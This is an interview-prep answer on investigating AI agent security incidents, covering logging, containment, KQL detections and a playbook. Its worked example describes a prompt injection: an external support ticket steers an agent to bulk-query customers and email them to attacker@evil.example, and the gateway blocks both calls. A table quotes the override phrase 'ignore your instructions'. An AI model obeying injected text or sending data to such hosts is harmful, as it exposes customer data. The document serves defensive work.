

# 8. How would you detect and investigate an AI security incident?

> Question adapted from [taimurijlal/ai-security-interview-questions](https://github.com/taimurijlal/ai-security-interview-questions). The answer below is original. See [ATTRIBUTION.md](../ATTRIBUTION.md).

**Portfolio link:** [Project 5, AI Security Monitoring](../../05-ai-security-monitoring/).

## 1. The answer in one minute

I would first contain and scope: did data actually leave, which records or systems were affected, and can the agent still do it? If needed I would disable the tool, revoke credentials or suspend the agent. Then I would reconstruct the chain of events by correlating the user request, retrieved content, prompt and model versions, tool calls with arguments, policy decisions, identities and cloud logs. I would find the root cause (excess permission, missing authorisation, a poisoned source, a compromised server), fix it, add a regression test and detections, and handle notification duties. The crucial shift from ordinary incident response is that the *action trail* matters more than the malicious prompt: an injection attempt that was blocked is a signal, not an incident.

## 2. Attempt, event or incident?

| Observation | Classification | Response |
| --- | --- | --- |
| A user typed "ignore your instructions" and the model refused | Attempt | Log, count, maybe rate-limit |
| An injection reached the model and the gateway blocked the resulting tool call | Security event | Alert, review source of the payload, fix ingestion |
| A tool call executed that the user was not entitled to | Incident | Contain, investigate, assess impact |
| Customer data reached an unauthorised external destination | Major incident | Contain, preserve evidence, notification assessment |

## 3. What you need to have logged before anything happens

Without these fields an AI incident cannot be reconstructed. Use a single correlation ID that follows a request through every component.

| Field | Why |
| --- | --- |
| Correlation ID, timestamp | Stitches the story together |
| User identity and agent identity | Who asked, and who acted |
| Retrieved document or chunk IDs, source and hash | Shows which content could have influenced the model |
| Prompt template version and model version | Reproduce behaviour; spot changes |
| Tool calls: name, arguments, result status | The action trail |
| Policy decision (allowed, blocked, pending, denied) and reason | Shows which control worked or failed |
| Approval record: who, what exact call, when | Accountability for human decisions |
| Output delivered to the user (or its hash, with the content under restricted access) | What was disclosed |
| Cost and token counts | Abuse detection |

Do not put the full prompt text in a broadly readable log, see [Q7](07-cloud-ai-security.md) and [Q14](14-privacy-data-protection.md).

## 4. The lifecycle, with the AI-specific actions



| Stage | Typical AI-specific actions |
| --- | --- |
| Contain | Flip the kill switch; revoke the agent's credentials; disable one tool or one MCP server; block an egress destination; pause ingestion; take a poisoned collection out of the index |
| Investigate | Pull the correlated trace; identify the retrieved content and its source; replay the context in a safe environment; list every request affected by the same source |
| Eradicate | Remove or quarantine the poisoned content; fix the permission or authorisation gap; rotate any credential the agent could reach |
| Recover | Restore the tool with tighter limits; re-enable ingestion with the new scanner; raise monitoring sensitivity for a period |
| Learn | Add the attack as a regression test; add detections; update the threat model and the playbook |

## 5. Worked example: an agent attempts to email customer records

Scenario: an alert shows the support agent called `send_email` with a recipient outside the company and a large body.

Reconstruct the timeline from the correlated log.

| Time | Event | Source |
| --- | --- | --- |
| 10:02:11 | User asks for a summary of ticket 8841 | App log |
| 10:02:12 | Retriever returns chunks from ticket 8841 (hash `ab12...`) written by an external party | Retrieval log |
| 10:02:14 | Model proposes `query_customers(ids=[1..500])` | Gateway log |
| 10:02:14 | Gateway blocks: bulk query exceeds limit, outcome `blocked` | Policy decision |
| 10:02:15 | Model proposes `send_email(to=attacker@evil.example, ...)` | Gateway log |
| 10:02:15 | Gateway blocks: recipient not on allow-list | Policy decision |

In this case the controls worked and the "incident" is an event with a clear source: ticket 8841. The investigation then asks who can write to that ticket channel, which other tickets came from the same sender and which other agents read them.

If instead the second call had succeeded, the questions become: what left, to whom, which records, and whether the destination is reachable from other paths.

An illustrative detection in KQL for a Sentinel-style environment (adjust table and field names to your schema):

```kusto
AgentToolCalls_CL
| where Outcome_s == "blocked"
| summarize Blocked = count(), Tools = make_set(ToolName_s) by AgentId_s, bin(TimeGenerated, 5m)
| where Blocked >= 3
```

And a correlation query shape for "content retrieved, then a sensitive tool called within a minute":

```kusto
let retrievals = RetrievalLog_CL | project CorrelationId_g, DocId_s, SourceType_s, TimeGenerated;
AgentToolCalls_CL
| where ToolName_s in ("send_email", "query_customers")
| join kind=inner retrievals on CorrelationId_g
| where SourceType_s == "external"
```

## 6. Detections worth building

| Detection | Signal |
| --- | --- |
| Repeated blocked tool calls from one agent or session | Agent being steered |
| Tool call to a destination never seen before | Possible exfiltration |
| Sensitive tool called after retrieval of external content | Injection pattern |
| Bulk reads (many records in one call or session) | Data harvesting |
| Canary token from a honeypot document appearing in any output or call | Unauthorised disclosure |
| New MCP server or changed tool manifest | Supply-chain change |
| Unusual token spend or step counts | Abuse or loops |
| Approval requests approved in under a second, or by one person in bulk | Rubber-stamping ([Q16](16-human-in-the-loop.md)) |

Place canary records, fake but realistic and unique, in sensitive stores. Any appearance in output or an outbound call is a high-confidence alert.

## 7. A short containment playbook for a compromised agent

1. Declare the incident and assign a lead and a scribe.
2. Disable the agent (central flag) and revoke its credentials; confirm blocked calls appear in the logs.
3. Block known bad destinations at the egress layer.
4. Preserve evidence: snapshot logs, the retrieved content, the model and prompt versions, the approval records.
5. Scope: list all sessions and sources linked to the trigger content or identity.
6. Decide on notification obligations with legal and privacy teams, within their deadlines.
7. Restore service with the fix and tighter limits; monitor closely; run the post-incident review.

## 8. Follow-up questions, with answers

**How long would you keep full prompt and response logs, and who can read them?**
Keep them as long as the investigation and compliance needs justify and no longer, often a short window (for example 30 to 90 days) for full content and longer for metadata. Restrict reading to a small, logged group, encrypt them, redact personal data where possible and have a legal-hold process for incidents. Decide the period with privacy and legal, and document it.

**How do you tell a hallucinated action from an injected one?**
Trace provenance. For an injected action, the offending arguments, goals or phrases appear in content the model read before the call (a retrieved chunk, a tool result), and replaying the same context tends to reproduce the action. For a hallucination, the action has no source in the context and does not reproduce reliably. The correlated log, with retrieved content hashes and the exact context, is what makes this answerable.

**What detections would you write to catch this earlier?**
The ones in section 6, especially sensitive tool calls following external content, repeated blocks, new destinations and canary hits, tuned against a baseline of normal behaviour for each agent.

**What is in your containment playbook for a compromised agent?**
See section 7, plus a pre-agreed authority to disable the agent without waiting for a meeting, and pre-built switches for disabling a single tool, MCP server, tenant or index.

**How do you establish whether data really left?** *(added)*
Check egress logs and the tool-call trail for outbound destinations, confirm the content of the call arguments and the receiving system's logs where you control them, look for canary values, and check for alternative channels such as rendered Markdown images or links. Absence of evidence is only meaningful if logging covered those channels.

**What regulatory obligations might apply?** *(added)*
It depends on the data and the jurisdiction. In Australia, the Notifiable Data Breaches scheme under the Privacy Act 1988 requires an assessment and, where eligible data breaches are likely to cause serious harm, notification to affected people and the regulator. In the EU, GDPR sets a 72-hour window to notify the supervisory authority for qualifying personal-data breaches. Involve privacy and legal early, and confirm current requirements.

## 9. Common mistakes

1. Hunting for the malicious prompt and ignoring what the system actually did.
2. Logging too little to reconstruct events, or too much sensitive content with open access.
3. Fixing the symptom (block that phrase) rather than the permission that made it harmful.
4. Skipping the regression test that proves the hole is closed.

## 10. What to demonstrate

A simulated incident: an injection leads to an unauthorised agent action, and you reconstruct the timeline from correlated logs, identify the initiating content, name the failed control and add a detection and a test.
